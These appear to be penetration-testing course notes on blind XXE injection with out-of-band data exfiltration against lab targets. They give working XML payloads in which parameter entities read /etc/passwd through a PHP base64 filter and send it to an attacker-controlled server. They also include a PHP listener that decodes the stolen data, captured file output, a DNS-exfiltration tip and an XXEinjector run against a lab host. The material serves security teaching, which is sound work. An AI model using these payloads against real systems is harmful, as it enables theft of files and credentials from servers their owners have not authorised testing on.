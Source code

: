 * Blind situation, where we neither get the output of the XML entities nor do we get any PHP errors displayed

## Out-of-bound Data Exfiltration
* We can utilize a method known as `Out-of-bound (OOB) Data Exfiltration`
	* Used in similar blind cases with many web attacks, like blind SQL injections, blind command injections, blind XSS, and of course, blind XXE
* Instead of having the web application output our `file` entity to a specific XML entity, we will make the web application send a web request to our web server with the content of the file we are reading
* First use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it
* Then create another external parameter entity and reference it to our IP
* After that place the `file` parameter value as part of the URL being requested over HTTP 

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

* Simple PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

```sh
$ vi index.php # here we write the above PHP code
$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

![](./Screenshots/web_attacks_xxe_blind_request.jpg)

```sh
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

**Tip:** In addition to storing our base64 encoded data as a parameter to our URL, we may utilize `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (e.g. `ENCODEDTEXT.our.website.com`), and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.

## Automated OOB Exfiltration
* One such tool is [XXEinjector](https://github.com/enjoiz/XXEinjector)

```sh
$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

* Copy the HTTP request from Burp and write it to a file for the tool to use.
* Write `XXEINJECT` after it as a position locator for the tool

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

```sh
$ ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

* All files get stored in the `Logs` folder

```sh
$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [ 
  <!ENTITY % remote SYSTEM "http://10.10.16.27:8000/xxe.dtd">
  %remote;
  %oob;
]>
            <root>
            <name>&content;</name>
            <details>Details</details>
            <date>1999-02-03</date>
            </root>
            
```